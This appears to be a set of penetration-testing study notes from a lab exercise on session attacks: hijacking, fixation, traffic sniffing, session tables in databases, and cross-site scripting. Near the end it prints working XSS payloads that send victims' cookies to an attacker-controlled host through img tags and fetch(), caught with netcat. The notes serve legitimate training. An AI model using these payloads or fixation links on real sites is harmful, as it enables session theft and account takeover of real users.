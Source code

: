 # 📉 Session Attacks 1

## Session Hijacking

Here the attacker takes advantage of insecure session identifiers, finds a way to obtain them, and uses them to authenticate to the server and impersonate the victim

Let's imagine the following account of some target.

<figure><img src="../../../.gitbook/assets/image (1361).png" alt=""><figcaption></figcaption></figure>

We can see cookie named `auth-session`

As an attacker we somehow got access to the cookie's value, we can go in a new private window, navigate to the website and replace the current auth-session cookie's value with the one we got. Normally if we reload the page, we will be logged in as the target

## Session Fixation

Session Fixation occurs when an attacker can fixate a (valid) session identifier.

Here are the 3 stages of a Session Fixation attacks:

**Stage 1: Attacker manages to obtain a valid session identifier**

**Stage 2: Attacker manages to fixate a valid session identifier**

**Stage 3: Attacker tricks the victim into establishing a session using the abovementioned session identifier**

Let's got through the 3 steps more in depth:

**Part 1: Session fixation identification**

We will have some random URL with some token value

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN VALUE>
```

<figure><img src="../../../.gitbook/assets/image (1362).png" alt=""><figcaption></figcaption></figure>

So we see the cookie is the same as the token value

**Part 2: Session fixation exploitation attempt**

Let's open a new private windows and add our own token value, we will end up navigating to ->

```
http://oredirect.htb.net/?redirect_uri=/complete.html&token=IControlThisCookie
```

&#x20;

<figure><img src="../../../.gitbook/assets/image (1363).png" alt=""><figcaption><p>same value once again</p></figcaption></figure>

We could send a URL similar to the above to a victim. If the victim logs into the application, we could easily hijack their session since the session identifier is already known (we fixated it).

Another way of looking for some fixation problems, let's say we got a cookie named `PHPSESSID, we could try http://insecure.exampleapp.com/login?PHPSESSID=AttackerSpecifiedCookieValue` and see if the specified cookie value is propagated to the application

## Obtaining Session Identifiers without User Interaction

We can obtain obtain session identifiers two main ways:

* without user interaction
* requiring user interaction

### via Traffic Sniffing

Traffic sniffing requires the attacker and the victim to be on the same local network. Then and only then can HTTP traffic be inspected by the attacker. It is impossible for an attacker to perform traffic sniffing remotely.

Let's go on our target website:

<figure><img src="../../../.gitbook/assets/image (1364).png" alt=""><figcaption><p>note <code>auth-session,</code> probably as a session identifier</p></figcaption></figure>

Now, we'll start wireshark on the local network:

```shell-session
sudo -E wireshark
```

Right-click "tun0" and then click "Start capture"

Now in a rivate window, we login to the app using knwon credentials with an account we created and look at the traffic:

<figure><img src="../../../.gitbook/assets/image (1365).png" alt=""><figcaption></figcaption></figure>

We don't forget the http filter, then we will need to filter everything out for any `auth-session` cookies with `Edit` -> `Find Packet`

<figure><img src="../../../.gitbook/assets/image (1366).png" alt=""><figcaption></figcaption></figure>

and when we find the packet we need we can copy the value like this:

<figure><img src="../../../.gitbook/assets/image (1367).png" alt=""><figcaption></figcaption></figure>

**Part 4: Hijack the victim's session**

and now if we go back to the not private window and change our current cookie value with the one we obtained through wireshark (remember to remove the `auth-session=` part)&#x20;

<figure><img src="../../../.gitbook/assets/image (1368).png" alt=""><figcaption></figcaption></figure>

And if we refresh we are now loggid in as the victim

### Post-Exploitation (Database Access)

When we have access to a database via, for example, SQL injection or identified credentials, we should always check for any stored user sessions.

<figure><img src="../../../.gitbook/assets/image (1369).png" alt=""><figcaption></figcaption></figure>

We can try to crack the hashes, but we also see the interesting session table ->

```sql
select * from all_sessions;
select * from all_sessions where id=3;
```

<figure><img src="../../../.gitbook/assets/image (1370).png" alt=""><figcaption><p>We could now authenticate as the user "Developer."</p></figcaption></figure>

## Cross-Site Scripting (XSS)

For a Cross-Site Scripting (XSS) attack to result in session cookie leakage, the following requirements must be fulfilled:

* Session cookies should be carried in all HTTP requests
* Session cookies should be accessible by JavaScript code (the HTTPOnly attribute should be missing)

First let's create an account to look at functionalities ->

To craft our payload, it's good to use handlers like `onload` or `onerror` since they fire up automatically, if they're blocked, we can  use something like `onmouseover`.

```javascript
"><img src=x onerror=prompt(document.domain)>
```

`document.domain` to ensure that JavaScript is being executed on the actual domain and not in a sandboxed environment.

and in the remaining fields, we can put the following:

```javascript
"><img src=x onerror=confirm(1)>
```

```javascript
"><img src=x onerror=alert(1)>
```

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

When we save we gor nothing poping on our screen, that's because we need to call the code with another functionality ->&#x20;

When we click on share:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to check if _HTTPOnly_ is off

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To steal a cookie in real world we can use [XSSHunter](https://xsshunter.com), [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or webhook.site

The payload would look somehing like:

```javascript
<h1 onmouseover='document.write(`<img src="https://CUSTOMLINK?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

{% content-ref url="../../../red-team/technical-knowledge/web-application/xss-injection.md" %}
[xss-injection.md](../../../red-team/technical-knowledge/web-application/xss-injection.md)
{% endcontent-ref %}

Now let's say the victim clicks on our link, in our webhook or anything else, we should see our cookie pop and can use it to hijack session

### cookies via XSS (Netcat edition)

First we place the below payload in the _Country_ field of Ela Stienen's profile and click "Save."

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Then we launch netcat on port 8000

now we simulate what the victim would do and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com` since we control this public profile hosting a cookie-stealing payload

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects.

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```

##
